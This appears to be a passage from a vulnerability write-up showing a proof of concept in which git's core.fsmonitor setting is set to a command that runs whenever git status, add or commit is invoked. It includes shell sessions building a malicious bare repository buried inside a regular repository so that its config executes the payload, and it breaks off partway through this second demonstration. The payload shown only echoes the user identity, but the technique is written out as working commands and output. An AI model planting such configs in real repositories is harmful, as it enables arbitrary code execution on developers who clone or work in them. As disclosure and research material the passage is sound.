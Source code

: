At this point, we can set `core.fsmonitor` to contain a payload which will execute upon commands such as `git status`:

```plain
root@f3eed6860a67:/tmp/tmp.WioZeUmHdX# echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">&2;false"' >> config

root@f3eed6860a67:/tmp/tmp.WioZeUmHdX# cat config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	worktree = "worktree"
	fsmonitor = "echo \"Pwned as $(id)\">&2;false"

root@f3eed6860a67:/tmp/tmp.WioZeUmHdX# git status
Pwned as uid=0(root) gid=0(root) groups=0(root)
Pwned as uid=0(root) gid=0(root) groups=0(root)
On branch main

No commits yet

nothing to commit (create/copy files and use "git add" to track)
```

## POC - Burying a malicious bare repo within a regular repo

Create the regular repo and the embedded malicious bare repo

```plain
root@f3eed6860a67:~# mkdir ~/malicious

root@f3eed6860a67:~# cd ~/malicious/

root@f3eed6860a67:~/malicious# git init
Initialized empty Git repository in /root/malicious/.git/

root@f3eed6860a67:~/malicious# mkdir poison

root@f3eed6860a67:~/malicious# cd poison/

root@f3eed6860a67:~/malicious/poison# echo 'ref: refs/heads/main' > HEAD

root@f3eed6860a67:~/malicious/poison# cat > config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	worktree = "worktree"
	fsmonitor = "echo \"Pwned as $(id)\">&2;false"
^D

root@f3eed6860a67:~/malicious/poison# mkdir objects refs worktree

root@f3eed6860a67:~/malicious/poison# touch worktree/.gitkeep

root@f3eed6860a67:~/malicious/poison# git add .gitkeep
Pwned as uid=0(root) gid=0(root) groups=0(root)
Pwned as uid=0(root) gid=0(root) groups=0(root)

root@f3eed6860a67:~/malicious/poison# git commit -m 'add gitkeep'
Pwned as uid=0(root) gid=0(root) groups=0(root)
Pwned as uid=0(root) gid=0(root) groups=0(root)
[main (root-commit) 4d195f3] add gitkeep
```